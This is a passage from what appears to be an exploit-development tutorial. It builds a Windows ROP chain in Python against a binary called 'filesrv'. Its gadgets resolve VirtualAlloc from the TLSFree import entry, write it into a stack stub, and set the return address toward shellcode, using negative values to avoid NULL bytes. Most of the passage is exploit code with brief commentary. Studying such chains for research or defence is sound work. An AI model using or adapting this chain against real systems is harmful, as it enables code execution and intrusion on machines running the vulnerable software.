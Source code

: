 ```python
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffb0) # - 0x50
rop += p32(filesrv+0x0001bb91) # add ecx, edx; clc; pop ebp; ret;)
rop += p32(0x41424344) #junk for ebp
```

We used an addition, but we "pop" a negative value. This is done to avoid NULL bytes. _ECX_ now has the value of the stack-0x50, and we'll use it to point to our stub

Next, We need to move the value of __TLSFree__  to a register. Since we have the IAT address stored in *tlsfree_iat*, we can dereference it and then subtract the Offset from __VirtualAlloc__


```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(tlsfree_iat)
rop += p32(filesrv+0x0002bb94) # mov eax, dword ptr [eax]; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffcf70) # 0x3090 
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;
```

We subtracted the value 0x3090, and now _EAX_ has the value of VirtualAlloc in Kernel32. We can then store it in our stub using the following gadget.

```python
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Great, now we should increase the "stub-pointer" in _ECX_ with the following:

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

So far, so good. Our next task is to set up the return address where our payload should return after the execution of __VirtualAlloc__, ideally, where our Shellcode resides. One of the reasons to choose to put our stub above the current payload we are sending is so we can calculate where to land, for that after looking at the stack in the debugger at Offset 0x3f0 from our "stub-pointer" looks good, we can use that value, add 0x3f0 and then place it in our stub, ropping like this:

```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xfffffc10) #0x3f0
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Great, we add the value first, passing the value of _ECX_ to _EAX_ and then doing a negative subtraction, again to avoid NULL bytes. We should increase the stub-pointer after that

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```
